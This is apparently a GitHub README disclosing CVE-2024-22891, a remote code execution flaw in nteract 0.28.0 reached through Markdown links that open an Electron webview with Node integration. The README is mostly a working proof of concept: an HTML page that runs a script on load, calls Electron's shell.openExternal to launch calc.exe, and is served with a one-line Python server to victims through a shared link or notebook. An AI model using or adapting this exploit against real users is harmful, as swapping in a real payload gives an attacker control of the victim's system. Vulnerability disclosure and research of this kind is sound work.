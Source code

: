# Nteract PoC
A Proof-Of-Concept for CVE-2024-22891 vulnerability. <br><br>
nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.
As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
 * Vulnerability Subject: Markdown link RCE
 * Vulnerability Type: Other: Open Redirect
 * Manifestation of the Issue: Electron Webview
 * Affected Component: markdown
 * Attack Type: Remote Code Execution
 * Attack Vectors: To exploit the vulnerability, someone must click on the link or access the shared project's link.
 * Reserved CVE Number: CVE-2024-22891 
---------------------------------------

#### 2. Vulnerability Cause:
* nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution (because nodeIntegration in webPreferences is true).

* Exploit explain
  * When generating links through MarkDown within the application, it creates a WebView via Electron, allowing external access to the link. Consequently, an attacker can achieve Remote Code Execution (RCE) by connecting to the link leading to the attacker's server.

Proof-of-concept (POC)
----------------------
**Step 1) Attacker make server to Source code for launching a calc.exe using openExternal() function.**
```html
<html>
<head>
    <title>jruru Link</title>
</head>
<body>
    <a id="jruruLink">jruru Link</a>

    <script>
         // Script function definition
        function openExternal() {
            try {
                const { shell } = require('electron');
                shell.openExternal('file:C:/Windows/System32/calc.exe');
            } catch(e) {
                alert('JRURU - External link cannot be opened.');
                console.error(e);
            }
        }
        // Automatically execute openExternal function after the page is loaded
        document.addEventListener('DOMContentLoaded', function() {
            openExternal();
        });
    </script>
</body>
</html>
```
**Note:** ※ If you want to test it quickly, create a server on the attacker's PC with the following code.

```py
$ python -m http.server 80
```


**Step 2) Execute the nteract application on the victim's system and create a Markdown link, or share the attacker's ipynb file as an example code. Then, execute calc.exe.**
```markdown
[Read This] (http://[attcker_adress]/shard_data.html)
```
![neteract](https://github.com/QnA4u/CVE/assets/131337101/f0dc7882-9376-4cd6-8432-241283d200b7)
![nteract2](https://github.com/QnA4u/CVE/assets/131337101/8b596f50-6c4e-40b5-a835-4dee96517314)

---------------------------------------

### 3. Additional Information
When executing a .ipynb file through file sharing, be cautious as the link may not be visible.This calc.exe could have been any malicious payload local or remote which could have given the attacker entire access to the victim’s system. 
